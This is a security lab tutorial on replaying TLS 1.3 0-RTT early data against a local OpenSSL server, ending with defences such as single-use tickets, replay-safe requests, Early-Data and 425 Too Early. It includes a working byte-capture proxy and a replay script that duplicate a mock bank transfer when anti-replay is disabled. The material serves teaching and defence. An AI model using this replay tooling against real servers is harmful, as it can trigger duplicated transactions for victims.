

# TLS 1.3 0-RTT: Replaying Early Data, and What Actually Stops It

## Learning goals

- Explain why 0-RTT early data can be replayed, even though it is encrypted and authenticated.
- Record a real 0-RTT request and replay it byte for byte, and watch a server without anti-replay deliver it to the application **twice**.
- Watch single-use tickets (OpenSSL's default) stop that replay, and say why that protection is per server process, not per fleet.
- Decide which requests may ride in early data, and use HTTP's `Early-Data: 1` header and the `425 Too Early` status for the rest.

Version note: all of the labs ran on one Linux box with **OpenSSL 3.5.7** (`openssl s_server` / `s_client`) and Python 3.13 (stdlib only), over 127.0.0.1. No packages were installed, and every output block is pasted from those runs. The HTTP-level advice (RFC 8470) is not exercised by a real HTTP server here, and it is marked as such.

{fig-alt="Top row, a legitimate resumption: the client holds a session ticket from an earlier full handshake and sends ClientHello with a pre-shared key and the early_data extension, then the POST request encrypted under the client early traffic secret, in its very first flight. The server's application reads the POST before the handshake finishes. Middle row, an attacker who recorded those bytes sends them again on a new connection. Without anti-replay, the server derives the same early keys from the same ticket and the application reads the POST a second time. The replayed handshake then fails at the client's Finished, but too late. Bottom row, with single-use tickets the ticket was already consumed, so the server falls back to a full handshake and ignores the early data. A side note says the ticket cache is per process: a second server behind the same load balancer has not seen the ticket, so the fleet needs shared state, a strike register, or no 0-RTT for unsafe requests, signalled in HTTP with Early-Data: 1 and 425 Too Early."}

## Mental model

A resumed TLS 1.3 handshake can carry application data in the client's **first flight**. That data is encrypted with keys derived from the resumption PSK, the session ticket, and the ClientHello. It covers nothing the server contributed: no server random, no fresh key share.

```text
client's first flight                                    keys depend on
──────────────────────────────────────────────           ─────────────────────────────
ClientHello {pre_shared_key: ticket, early_data}         ─┐
[ChangeCipherSpec]                                        │ PSK + ClientHello
application_data: "POST /transfer?…"   ← 0-RTT           ─┘ (client_early_traffic_secret)
                       ··· server flight ···
EndOfEarlyData, Finished               ← needs server's ServerHello, so a recording can't fake it
```

So the same bytes, sent again, decrypt to the same request. RFC 8446 §8 and its successor RFC 9846 §8 say it plainly: TLS gives no protection against replay of 0-RTT data. Defences have to come from the server: single-use tickets (§8.1), ClientHello recording (§8.2), freshness checks (§8.3), or the application refusing unsafe early requests.

## Lab: record one 0-RTT request, replay it

Three small pieces:

- `proxy.py` forwards one TCP connection and records every byte the client sends.
- `replay.py` opens a **new** connection and sends those bytes again, without any keys.
- `lab.sh` runs the scenario against `openssl s_server -early_data`.

```python
"""proxy.py LISTEN UPSTREAM OUT — forward one TCP connection, record client->server bytes to OUT."""
import socket, sys, threading
lport, uport, out = int(sys.argv[1]), int(sys.argv[2]), sys.argv[3]
ls = socket.socket(); ls.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); ls.bind(("127.0.0.1", lport)); ls.listen(1)
c, _ = ls.accept(); u = socket.create_connection(("127.0.0.1", uport)); rec = bytearray()
def pump(a, b, keep):
    while (d := a.recv(65536)):
        if keep: rec.extend(d)
        b.sendall(d)
    b.shutdown(socket.SHUT_WR)
t = threading.Thread(target=pump, args=(u, c, False)); t.start(); pump(c, u, True); t.join()
open(out, "wb").write(rec)
```

```python
"""replay.py PORT FILE — resend every byte the client sent (recorded by proxy.py) as a brand-new connection."""
import socket, sys
data = open(sys.argv[2], "rb").read()
recs, i = [], 0
while i < len(data):
    ln = int.from_bytes(data[i+3:i+5]); recs.append({20: "CCS", 21: "alert", 22: "handshake", 23: "appdata"}[data[i]]); i += 5 + ln
s = socket.create_connection(("127.0.0.1", int(sys.argv[1]))); s.sendall(data)
s.settimeout(2); got = b""
try:
    while (d := s.recv(65536)): got += d
except (socket.timeout, ConnectionResetError): pass
print(f"replayed {len(data)} bytes = records {' '.join(recs)}; server answered {len(got)} bytes")
```

```sh
#!/bin/sh
# lab.sh MODE — MODE is -anti_replay (OpenSSL default) or -no_anti_replay
MODE=$1; LOG=server$MODE.log; rm -f sess.pem cap.bin
openssl s_server -accept 4433 -cert cert.pem -key key.pem -tls1_3 -early_data -max_early_data 16384 $MODE -quiet > $LOG 2>&1 &
SRV=$!; sleep 0.5
echo "1. full handshake, keep the session ticket"
sleep 1 | openssl s_client -connect 127.0.0.1:4433 -tls1_3 -sess_out sess.pem -quiet >/dev/null 2>&1
echo "2. resume through the recording proxy, sending req.txt as 0-RTT early data"
python3 proxy.py 4434 4433 cap.bin & PX=$!; sleep 0.3
sleep 1 | openssl s_client -connect 127.0.0.1:4434 -tls1_3 -sess_in sess.pem -early_data req.txt 2>&1 | grep -E 'Early data was|Reused|New, ' | sort -u | sed 's/^/   client: /'
wait $PX
echo "3. an attacker replays every byte the client sent, on a new connection"
python3 replay.py 4433 cap.bin | sed 's/^/   /'
sleep 0.5; kill $SRV
echo "4. what the server application received:"
grep -c 'POST /transfer' $LOG | sed 's/^/   POST lines in server output: /'
```

`req.txt` holds the "dangerous" request, and `cert.pem` is a throwaway P-256 self-signed certificate:

```bash
openssl req -x509 -newkey ec -pkeyopt ec_paramgen_curve:P-256 -nodes \
  -keyout key.pem -out cert.pem -days 1 -subj /CN=bank.test
printf 'POST /transfer?to=mallory&amount=100 HTTP/1.1\r\nHost: bank.test\r\n\r\n' > req.txt
for m in -anti_replay -no_anti_replay; do echo "== s_server $m"; ./lab.sh $m; done
```

```text
== s_server -anti_replay
1. full handshake, keep the session ticket
2. resume through the recording proxy, sending req.txt as 0-RTT early data
   client: Early data was accepted
   client: Reused, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
3. an attacker replays every byte the client sent, on a new connection
   replayed 1777 bytes = records handshake CCS appdata appdata appdata appdata; server answered 1843 bytes
4. what the server application received:
   POST lines in server output: 1
== s_server -no_anti_replay
1. full handshake, keep the session ticket
2. resume through the recording proxy, sending req.txt as 0-RTT early data
   client: Early data was accepted
   client: Reused, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
3. an attacker replays every byte the client sent, on a new connection
   replayed 1953 bytes = records handshake CCS appdata appdata appdata appdata; server answered 1357 bytes
4. what the server application received:
   POST lines in server output: 2
```

What the server application printed in the `-no_anti_replay` run (`server-no_anti_replay.log`):

```text
POST /transfer?to=mallory&amount=100 HTTP/1.1
Host: bank.test

POST /transfer?to=mallory&amount=100 HTTP/1.1
Host: bank.test

40970F6DE07F0000:error:0A000119:SSL routines:tls_get_more_records:decryption failed or bad record mac:../ssl/record/methods/tls_common.c:873:
40970F6DE07F0000:error:0A000139:SSL routines::record layer failure:../ssl/record/rec_layer_s3.c:698:
```

Reading it:

- **Step 2** is a normal 0-RTT resumption: `Reused, TLSv1.3` and `Early data was accepted`.
- **Step 3 without anti-replay:** `replay.py` holds no keys and no ticket secret. It resends opaque records: one handshake record, the compatibility CCS, and four application_data records. The server derived the same early keys and handed the POST to the application **a second time**. Only after that did the handshake fail (`decryption failed or bad record mac`). The recorded client Finished is encrypted under handshake keys that depend on the *new* ServerHello, so it is garbage on this connection. The failure comes too late: the early data had already been read.
- **Step 3 with anti-replay:** the POST appears **once**. The [OpenSSL documentation](https://docs.openssl.org/3.5/man3/SSL_read_early_data/) says that when a server allows early data, it "automatically enables replay protection". Tickets become single use, and "the second and subsequent attempts will fall back to a full handshake (and any early data that was submitted will be ignored)". That is RFC 8446 §8.1, single-use tickets.

## Where the protection ends

OpenSSL's single-use check lives in **that process's internal session cache**. The same documentation warns that applications using an external session cache must keep it in sync. Run four TLS terminators behind one load balancer, or restart one, and a replayed ClientHello sent to a server that has not seen the ticket is accepted again. RFC 8446 §8 frames it this way: replay protection only holds across the set of servers that accept a ticket. That set can be one shared database, or "zones" whose tickets are not accepted by other zones. ClientHello recording works the same way: a window bounded by freshness checks (§8.2, §8.3). Many deployments therefore accept 0-RTT only for requests that are safe to replay.

Two consequences for applications:

- **Replay-safe only.** GET-style requests with no side effects are fine in early data. A transfer, a login or a "send email" is not.
- **No IP-based trust.** A replayed request comes from whoever replayed it, from any address, and the bytes are identical, so the source address of a 0-RTT request proves nothing. Rate limits or allow-lists keyed on client IP must not authorise early data.

## HTTP's answer: `Early-Data: 1` and `425 Too Early` (not run here)

[RFC 8470](https://www.rfc-editor.org/rfc/rfc8470) defines the HTTP side:

- A server or proxy that is not sure a request is replay-safe can answer **`425 Too Early`**. The client then retries after the handshake (§5.2, §4).
- A TLS-terminating proxy that forwards a request received in early data adds **`Early-Data: 1`** (§5.1), so the origin can make the decision even though it never saw TLS.

```text
client ─0-RTT POST─▶ edge proxy ──"POST … Early-Data: 1"──▶ origin
                                 ◀── 425 Too Early ─────────┘   (not replay-safe)
client ◀── 425 ── edge; client retries the POST after the handshake completes (1-RTT)
```

## The boring rule

- Leave OpenSSL's anti-replay on (the default). Treat it as per process, not as a fleet guarantee.
- Allow 0-RTT only for idempotent requests. Have the edge mark early requests with `Early-Data: 1`, and have origins answer `425` for anything with side effects.
- Never let the client address, or anything else replayable, authorise an early request.

## Try this

1. Re-run the lab with `-num_tickets 2` on the server and use each ticket once. Then replay one capture against a **second** `s_server` started with a different port and the same certificate. Is the early data accepted? (A second process does not share the first one's ticket key, so check whether it even decrypts the ticket.)
2. Add `-max_early_data 0` on the server and watch `Early data was rejected` on the client.
3. Open `cap.bin` with a TLS-aware dissector and find the `early_data` and `pre_shared_key` extensions in the ClientHello.

## Sources

- RFC 8446, TLS 1.3: §4.2.10 Early Data Indication, §8 0-RTT and Anti-Replay (§8.1–8.3), Appendix E.5 Replay Attacks on 0-RTT: <https://www.rfc-editor.org/rfc/rfc8446>
- RFC 9846, TLS 1.3 (obsoletes RFC 8446): §8 0-RTT and Anti-Replay, Appendix F.5 Replay Attacks on 0-RTT: <https://www.rfc-editor.org/rfc/rfc9846>
- RFC 8470, Using Early Data in HTTP (`Early-Data`, `425 Too Early`): <https://www.rfc-editor.org/rfc/rfc8470>
- OpenSSL 3.5, SSL_read_early_data(3), "Replay protection": <https://docs.openssl.org/3.5/man3/SSL_read_early_data/>
- OpenSSL 3.5, openssl-s_server(1) (`-early_data`, `-anti_replay`, `-no_anti_replay`): <https://docs.openssl.org/3.5/man1/openssl-s_server/>
